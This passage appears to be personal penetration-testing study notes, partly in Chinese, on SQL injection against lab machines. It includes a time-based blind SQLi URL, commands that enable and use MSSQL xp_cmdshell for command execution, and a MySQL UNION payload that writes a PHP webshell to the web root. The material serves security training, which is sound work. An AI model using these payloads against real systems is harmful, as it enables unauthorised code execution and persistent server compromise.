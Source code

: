 ```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```
> the application hangs for about three seconds.
            
### Manual and Automated Code Execution
#### - Manual Code Execution
- MSSQL
>[!Caution]
the **`xp_cmdshell`** function takes a string and passes it to a command shell for execution.\
The function returns **any output as rows of text**.\
be called with the `EXECUTE` keyword instead of `SELECT`.
default: disable
 
`xp_cmdshell` feature: ([MSSQL:sp_configure](https://learn.microsoft.com/zh-tw/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver16))
```
┌──(chw㉿CHW-kali)-[/]
└─$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
> 1. `EXECUTE sp_configure 'show advanced options', 1;`: 開啟 advanced options，可以顯示進階組態選項。
> 2. `RECONFIGURE`: 將以上變更生效
> 3. `EXECUTE sp_configure 'xp_cmdshell', 1;`: 啟用 xp_cmdshell (可執行系統層級的命令)

Executing Commands via xp_cmdshell:
```
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output
---------------------------
nt service\mssql$sqlexpress

NULL
```            
- MySQL
>[!Caution]
> various MySQL database variants don't offer a single function to escalate to RCE, we can abuse the `SELECT INTO_OUTFILE` statement to write files on the web server.

UNION payload: writes a webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
> Write a WebShell To Disk via INTO OUTFILE directive
